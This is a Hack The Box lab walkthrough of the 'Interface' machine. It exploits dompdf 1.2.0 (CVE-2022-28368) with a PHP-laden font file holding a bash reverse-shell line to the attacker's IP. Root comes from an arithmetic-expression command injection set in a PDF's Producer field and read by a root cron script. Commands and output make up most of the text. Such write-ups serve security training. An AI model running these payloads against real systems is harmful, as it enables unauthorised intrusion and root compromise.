



# Interface HTB Walkthrough


## Introduction

After some tricky enumeration where I initially miss the obvious, we find and fuzz an API endpoint which converts HTML input to PDF.  Looking at the resulting PDF with `exiftool`, we find dompdf 1.2.0 is used.  This is vulnerable to injecting arbitrary PHP into a font file, which the server will execute once included in a stylesheet.  Knowing this, we serve up a style sheet, TTF font containing malicious PHP and pass a reference to our stylesheet to the vulnerable API point.  With RCE, we then escalate to root by finding a cleanup script vulnerable to command injection.  By adding bash code into an arithmetic expression inside a PDF metadata field, we can execute arbitrary code as root.

## Enumeration

Let's start with an obligatory Nmap scan:

```bash
$nmap -sC -sV -o nmap/initial 10.10.11.200
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-26 17:40 AEDT
Nmap scan report for 10.10.11.200
Host is up (0.019s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7289a0957eceaea8596b2d2dbc90b55a (RSA)
|   256 01848c66d34ec4b1611f2d4d389c42c3 (ECDSA)
|_  256 cc62905560a658629e6b80105c799b55 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site Maintenance
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.80 seconds

```

Browsing to the web server found at http://10.10.11.200/:



Using [Wappalyzer](https://www.wappalyzer.com/), and looking at Firefox developer tools to see files retrieved (bundled javascript) indicates we're looking at a NextJS project.

We attempt to enumerate the web server further with a gobuster scan:

```bash
$gobuster dir -u http://10.10.11.200 -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.200
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/03/26 17:43:57 Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 308) [Size: 8] [--> /cgi-bin]
/favicon.ico          (Status: 200) [Size: 15086]           
                                                            
===============================================================
2023/03/26 17:44:16 Finished
===============================================================

```

The *contact us* on the landing page links to `mailto:contact@interface.htb`, so we add  `10.10.11.200 interface.htb` to our `/etc/hosts`

I'll try to keep this a little short, but let's just say I spent a LONG time enumerating.  I tried:

* `gobuster dir` with different word lists

* `gobuster vhost` to try find subdomains

* feroxbuster with different wordlists, and the `-m` parameter to try `GET,POST` and other HTTP methods

Despite all this, I only found path `/cgi-bin/` as above, and while feroxbuster is recursive, it didn't really find much else.

Backtracking a little, I intercepted all traffic through BurpSuite.  While looking at the Site Map feature (super useful!) and seeing which HTTP headers were in the various responses returned, something stood out:



In the `Content-Security-Policy` header, we see http://prd.m.rendering-api.interface.htb -- a subdomain our enumeration with different tools and wordlists hadn't found

I tried running feroxbuster against our new subdomain after adding it to `/etc/hosts`.  Then I tried with GET and POST methods using `raft-medium-word` wordlist:

```bash
$./feroxbuster -u http://prd.m.rendering-api.interface.htb/api -m GET,POST -w ~/SecLists/Discovery/Web-Content/raft-medium-words.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.9.2
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://prd.m.rendering-api.interface.htb/api
 🚀  Threads               │ 50
 📖  Wordlist              │ /home/zara/SecLists/Discovery/Web-Content/raft-medium-words.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.9.2
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET, POST]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l        3w       50c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404     POST        1l        3w       50c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
422     POST        1l        2w       36c http://prd.m.rendering-api.interface.htb/api/html2pdf
[####################] - 1m    126176/126176  0s      found:1       errors:0      
[####################] - 1m    126176/126176  1449/s  http://prd.m.rendering-api.interface.htb/api/ 

```

POSTing to http://prd.m.rendering-api.interface.htb/api/html2pdf gives us a HTTP 422 - unprocessable content response.  This apparently means a request was well-formed, but syntactically invalid.  When cURLing, we see we're missing a parameter:

```bash
$curl -X POST -v http://prd.m.rendering-api.interface.htb/api/html2pdf
*   Trying 10.10.11.200:80...
* Connected to prd.m.rendering-api.interface.htb (10.10.11.200) port 80 (#0)
> POST /api/html2pdf HTTP/1.1
> Host: prd.m.rendering-api.interface.htb
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 422 Unprocessable Entity
< Server: nginx/1.14.0 (Ubuntu)
< Date: Fri, 31 Mar 2023 08:28:19 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
* Connection #0 to host prd.m.rendering-api.interface.htb left intact
{"status_text":"missing parameters"}%                              
```

Fuzzing query params with raft and other wordlists yielded nothing:

```bash
ffuf -u "http://prd.m.rendering-api.interface.htb/api/html2pdf?FUZZ=aaa" -X POST -w ~/SecLists/Discovery/Web-Content/raft-medium-words.txt
```

Let's fuzz the body as a JSON payload using [ffuf](https://github.com/ffuf/ffuf):

```bash
$ffuf -u "http://prd.m.rendering-api.interface.htb/api/html2pdf?FUZZ=aaa" -X POST -w ~/SecLists/Discovery/Web-Content/raft-medium-words.txt -d '{"FUZZ": "foo"}' 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://prd.m.rendering-api.interface.htb/api/html2pdf?FUZZ=aaa
 :: Wordlist         : FUZZ: /home/zara/SecLists/Discovery/Web-Content/raft-medium-words.txt
 :: Data             : {"FUZZ": "foo"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

html                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 23ms]
:: Progress: [63087/63087] :: Job [1/1] :: 1757 req/sec :: Duration: [0:00:41] :: Errors: 0 ::

```
I mistakenly left a query param here, but nonetheless we find that we can supply `html` key in the JSON payload when POSTing, and we get a 200 response.

Next we try a payload, and opening the resulting file to determine the behaviour of the endpoint:

```bash
$curl -X POST -H "Content-Type: application/json" "http://prd.m.rendering-api.interface.htb/api/html2pdf" -d '{"html": "fooooooooooooooooooooooooo<a href=\"bar.com\">bar</a>oooooooooooooooooooooooo"}' > out.pdf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1551  100  1462  100    89  25306   1540 --:--:-- --:--:-- --:--:-- 27210
$open out.pdf
```

While our anchor tag points at `bar.com`, we have a hyperlink in the resulting PDF pointing at `/var/www/api/bar.com`, which may be helpful -- as it exposes the path from which PDF rendering possibly runs on the target:



I tried sending different payloads with iframes, javascript to manipulate the DOM -- all attempting Local File Inclusion to see if I could read `/etc/passwd` -- but it appears these were being filtered out.

I ran `python -m http.server 8081` locally, and sent the following payload:

```bash
$curl -X POST -H "Content-Type: application/json" "http://prd.m.rendering-api.interface.htb/api/html2pdf" -d '{"html": "aaa<link rel=\"stylesheet\" property=\"stylesheet\" type=\"text/css\" href=\"http://10.10.14.15:8081/\" >bbb"}' > out.pdf
```

It appears this *did* result in the server reaching out to the HTTP server on my machine:

```bash
python -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.200 - - [01/Apr/2023 17:18:35] "GET / HTTP/1.0" 200 -
```

Looking at the output produced by this API endpoint using `pdfinfo`, the metadata shows the PDF was produced by dompdf 1.2.0:

```bash
$pdfinfo out.pdf 
Producer:       dompdf 1.2.0 + CPDF
CreationDate:   Sat Apr  1 17:19:09 2023 AEDT
ModDate:        Sat Apr  1 17:19:09 2023 AEDT
Tagged:         no
UserProperties: no
Suspects:       no
Form:           none
JavaScript:     no
Pages:          1
Encrypted:      no
Page size:      419.53 x 595.28 pts
Page rot:       0
File size:      1143 bytes
Optimized:      no
PDF version:    1.7
```

Searching for dompdf 1.20.0 exploits, we find the following: [GitHub - positive-security/dompdf-rce: RCE exploit for dompdf](https://github.com/positive-security/dompdf-rce) - CVE-2022-28368:

We know the PDF renderer will follow `href`s in the link tag, which could be a stylesheet -- and this exploit appears to give RCE by injecting CSS into the PDF rendering engine which requests a malicious font file we serve up to the target:

```css
@font-face {
    font-family:'exploitfont';
    src:url('http://localhost:9001/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
```

From there, the server will request the 'font', which contains PHP Code (but the file type based on magic bytes is a valid TTF font).  This 'font' is cached server side and looks something like:
 
```php
� dum1�cmap`�,glyf5sc��head�Q6�6hhea��($hmtxD
Lloca
Tmaxp\ nameD�|8dum2� -��-����
:83#5:08��_<�@�8�&۽
:8L��
:D
6				s
<?php phpinfo(); ?>
```

The cached 'font' is then available at `http://target/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_<md5 hash>.php`, where the md5 hash is generated from the font URL in the stylesheet above - `http://localhost:9001/exploit_font.php`


The blog here has a more thorough explanation: [From XSS to RCE (dompdf 0day) | Positive Security](https://positive.security/blog/dompdf-rce)

With this in mind, let's serve up a dodgy font file in exploit.css:

```css
@font-face {
    font-family:'exploitfont2';
    src:url('http://10.10.14.15:8081/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }

```

Our `exploit_font.php` contains the following, complete with valid TTF font magic bytes and PHP with a call out to `system()` spawning a reverse shell back to my machine:

```
� dum1�cmap`�,glyf5sc��head�Q6�6hhea��($hmtxD
Lloca
Tmaxp\ nameD�|8dum2� -��-����
:83#5:08��_<�@�8�&۽
:8L��
:D
6				s
<?php system('bash -i >& /dev/tcp/10.10.14.15/3322 0>&1'); ?>
```

I wrote a basic bash script `exploit.sh` -- this sends a POST request initiating the html2pdf conversion with a link tag pointing at our `exploit.css` stylesheet above, which references our malicious 'font' containing PHP code.  Knowing our malicious font is cached and accessible on the server, we `curl` it -- where the URL is derived from the font name, and md5 sum of the URL above in the font face.

Here's the resulting 2 line script:

```bash
#!/usr/bin/env bash

curl -X POST -H "Content-Type: application/json" "http://prd.m.rendering-api.interface.htb/api/html2pdf" -d '{"html": "aaa<link rel=\"stylesheet\" property=\"stylesheet\" type=\"text/css\" href=\"http://10.10.14.15:8081/exploit.css\" >bbb"}' > out.pdf

curl --output font_out -v "http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont2_normal_$(echo -n 'http://10.10.14.15:8081/exploit_font.php' | md5sum | awk '{ print $1 }').php"
```

So, we run `python -m http.server 8081` locally to serve up `exploit.css` and `exploit_font.php`, a separate netcat listener with `nc -lvnp 3322`.  Then we run `./exploit.sh`.  Our HTTP server shows that the target fetches the CSS and our 'font':

```bash
$python -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.200 - - [01/Apr/2023 18:28:13] "GET /exploit.css HTTP/1.0" 200 -
10.10.11.200 - - [01/Apr/2023 18:28:13] "GET /exploit_font.php HTTP/1.0" 200 -
```

The server then executes the PHP in our font file, and we get a reverse shell plus immediately obtain the user flag!:

```bash
$nc -lvnp 3322
Listening on 0.0.0.0 3322
Connection received on 10.10.11.200 51042
bash: cannot set terminal process group (1160): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$
bash-4.4$ ls /home
ls /home
dev
bash-4.4$ ls -la /home/dev
ls -la /home/dev
total 32
drwxr-xr-x 4 dev  dev  4096 Jan 16 09:49 .
drwxr-xr-x 3 root root 4096 Jan 16 09:49 ..
lrwxrwxrwx 1 root root    9 Jan 10 12:56 .bash_history -> /dev/null
-rw-r--r-- 1 dev  dev   220 Jan 10 12:55 .bash_logout
-rw-r--r-- 1 dev  dev  3771 Jan 10 12:55 .bashrc
drwx------ 2 dev  dev  4096 Jan 16 09:49 .cache
drwx------ 3 dev  dev  4096 Jan 16 09:49 .gnupg
-rw-r--r-- 1 dev  dev   807 Jan 10 12:55 .profile
-rw-r--r-- 1 root dev    33 Mar 31 10:01 user.txt
bash-4.4$ cat /home/dev/user.txt
cat /home/dev/user.txt
8f78875f28ba9ffcb836c64e03ec7e87
```

You'll notice I used `exploitfont2` for the font name, and the cached filename above -- my first PHP shell didn't work, and I had to tweak the name, as the font is cached and would not be fetched again without changing the name.

## Privilege Escalation

First I checked the output of `ps aux --forest`, but no running processes stood out.  Let's run a copy of process spy on the target, and see if anything interesting, such as a cron job, runs:

```bash
bash-4.4$ cd /dev/shm                       
cd /dev/shm
bash-4.4$ wget http://10.10.14.15:8081/pspy64
wget http://10.10.14.15:8081/pspy64
--2023-04-01 07:58:37--  http://10.10.14.15:8081/pspy64
Connecting to 10.10.14.15:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: 'pspy64'


bash-4.4$ chmod +x pspy64
chmod +x pspy64
bash-4.4$ ./pspy64

2023/04/01 08:00:01 CMD: UID=0    PID=34707  | /usr/sbin/CRON -f 
2023/04/01 08:00:01 CMD: UID=0    PID=34706  | /bin/bash /root/clean.sh 
2023/04/01 08:00:01 CMD: UID=0    PID=34705  | /bin/sh -c /root/clean.sh 
2023/04/01 08:00:01 CMD: UID=0    PID=34704  | /usr/sbin/CRON -f 
2023/04/01 08:00:01 CMD: UID=0    PID=34703  | /usr/sbin/CRON -f 
2023/04/01 08:00:01 CMD: UID=0    PID=34708  | /bin/bash /usr/local/sbin/cleancache.sh 
2023/04/01 08:00:01 CMD: UID=0    PID=34710  | /bin/bash /usr/local/sbin/cleancache.sh 
2023/04/01 08:00:01 CMD: UID=0    PID=34709  | find /var/www/api/vendor/dompdf/dompdf/lib/fonts/ -type f -cmin -5 -exec rm {} ; 
2023/04/01 08:00:01 CMD: UID=0    PID=34713  | find /var/www/api/vendor/dompdf/dompdf/lib/fonts/ -type f -cmin -5 -exec rm {} ; 
2023/04/01 08:00:01 CMD: UID=0    PID=34712  | cut -d   -f1 
2023/04/01 08:00:01 CMD: UID=0    PID=34711  | /usr/bin/perl -w /usr/bin/exiftool -s -s -s -Producer /tmp/lol 
2023/04/01 08:00:01 CMD: UID=0    PID=34716  | cp /root/font_cache/dompdf_font_family_cache.php.bak /root/font_cache/dompdf_font_family_cache.php 
2023/04/01 08:00:01 CMD: UID=0    PID=34717  | chown www-data /root/font_cache/dompdf_font_family_cache.php 
2023/04/01 08:00:01 CMD: UID=0    PID=34719  | mv /root/font_cache/dompdf_font_family_cache.php /var/www/api/vendor/dompdf/dompdf/lib/fonts/dompdf_font_family_cache.php 
2023/04/01 08:00:01 CMD: UID=0    PID=34721  | 
2023/04/01 08:00:01 CMD: UID=0    PID=34724  | /bin/bash /usr/local/sbin/cleancache.sh 
2023/04/01 08:00:01 CMD: UID=0    PID=34726  | cut -d   -f1 
2023/04/01 08:00:01 CMD: UID=0    PID=34725  | /usr/bin/perl -w /usr/bin/exiftool -s -s -s -Producer /tmp/lol_original 
2023/04/01 08:02:01 CMD: UID=0    PID=34731  | /bin/bash /usr/local/sbin/cleancache.sh 
2023/04/01 08:02:01 CMD: UID=0    PID=34730  | /bin/sh -c /usr/local/sbin/cleancache.sh 
2023/04/01 08:02:01 CMD: UID=0    PID=34729  | /usr/sbin/CRON -f 
2023/04/01 08:02:01 CMD: UID=0    PID=34734  | 
2023/04/01 08:02:01 CMD: UID=0    PID=34733  | /usr/bin/perl -w /usr/bin/exiftool -s -s -s -Producer /tmp/lol 
2023/04/01 08:02:01 CMD: UID=0    PID=34732  | /bin/bash /usr/local/sbin/cleancache.sh 
2023/04/01 08:02:01 CMD: UID=0    PID=34736  | /bin/bash /dev/shm/hash.sh 
2023/04/01 08:02:01 CMD: UID=0    PID=34735  | /bin/bash /usr/local/sbin/cleancache.sh 
2023/04/01 08:02:01 CMD: UID=0    PID=34740  | cut -d   -f1 
2023/04/01 08:02:01 CMD: UID=0    PID=34739  | /usr/bin/perl -w /usr/bin/exiftool -s -s -s -Producer /tmp/lol_original 
2023/04/01 08:02:01 CMD: UID=0    PID=34738  | /bin/bash /usr/local/sbin/cleancache.sh 
```

Looking at the `/usr/local/sbin/cleancache.sh` script:

```bash
bash-4.4$ cat /usr/local/sbin/cleancache.sh
cat /usr/local/sbin/cleancache.sh 
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do

    if [[ -f "$cfile" ]]; then

        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)

        if [[ "$meta_producer" -eq "dompdf" ]]; then
            echo "Removing $cfile"
            rm "$cfile"
        fi

    fi

done
```

This script loops through files in `/tmp`, running `exiftool` on each to get the Producer field from metadata.  If this field is `dompdf` (somewhat expected when our web app uses this engine to generate temp PDF files we can download), then the file is deleted.  We can see this looks to be initiated regularly as a cron job, and runs as root (UID=0).

The first thing standing out is that maybe we can command inject by setting the Producer metadata field -- given we can write to and control files in `/tmp`.  However, our script above `cut`s on space, so we either need to use a space bypass technique such as base64 or the Internal Field Separator in bash -- which is the environment variable `$IFS` used by bash for determining separated word sequences.

I kept getting syntax errors here, until I came across this: [Bash's white collar eval: [[ $var -eq 42 ]] runs arbitrary code too &#8211; Vidar's Blog](https://www.vidarholen.net/contents/blog/?p=716)

The script checks producer using `[[ "$meta_producer" -eq "dompdf" ]];` which is vulnerable to arbitrary code execution.  In essence, we can force the `eq` operator to evaluate `"$meta_producer"` as an arithmetic expression. Bash will evaluate constructs such as `a[$(whoami)]+42` where the shell expects an integer -- given we are indexing into array `a[]` and adding integer 42.

With that in mind, we set the Producer metadata field on a test PDF.  This will use `chmod` to set the SetUID bit on `/bin/bash` for the owner (hence the `u+s`, where `u` is root). We also include the Internal Field Seperator `${IFS}` as mentioned above, to bypass `cut`.  This should allow us to run bash as root:

```bash
$exiftool -Producer='a[$(chmod${IFS}u+s${IFS}/bin/bash)]+42' test.pdf
    1 image files updated

$exiftool test.pdf
ExifTool Version Number         : 12.16
File Name                       : test.pdf
Directory                       : .
File Size                       : 4.5 KiB
File Modification Date/Time     : 2023:04:01 21:01:52+11:00
File Access Date/Time           : 2023:04:01 21:01:52+11:00
File Inode Change Date/Time     : 2023:04:01 21:01:52+11:00
File Permissions                : rwxr-x---
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
XMP Toolkit                     : Image::ExifTool 12.16
Producer                        : a[$(chmod${IFS}u+s${IFS}/bin/bash)]+42
Create Date                     : 2023:04:01 08:11:14+00:00
Modify Date                     : 2023:04:01 08:11:14+00:00
```

We use `wget` to retrieve this PDF, and save this into `/tmp/test.pdf` on our target, and wait a little for the cron job to kick in.  We see `/bin/bash` with SUID bit set, and we are able to run `bash -p`, to not reset the effective user ID, so bash runs in privileged mode as root -- giving us a root shell, and the root flag!:

```bash
bash-4.4$ cd /tmp
cd /tmp
bash-4.4$ wget http://10.10.14.15:8081/test.pdf
wget http://10.10.14.15:8081/test.pdf
--2023-04-01 10:11:50--  http://10.10.14.15:8081/test.pdf
Connecting to 10.10.14.15:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4576 (4.5K) [application/pdf]
Saving to: 'test.pdf'

test.pdf.1          100%[===================>]   4.47K  --.-KB/s    in 0.001s  

2023-04-01 10:11:50 (3.19 MB/s) - 'test.pdf' saved [4576/4576]


bash-4.4$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr 18  2022 /bin/bash
bash-4.4$ /bin/bash -p 
bash-4.4# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-4.4# cat /root/root.txt
cat /root/root.txt
f64108af50796213d7a500029861c6cc
bash-4.4# 
```

And we're done!

## Conclusion

When enumerating, I missed the subdomain in the response headers, which led to a whole lot of nothing.  With the API endpoint found, fuzzing the query parameter and determining the functionality was fairly straight forward.

The presence of a command injection into the cleanup script seemed obvious, but I hadn't come across this particular flavour (arithmetic expression) of injection before.

This machine was another reminder to take enumeration slowly and be deliberate -- don't just fuzz and spray payloads at endpoints blindly hoping to find something.
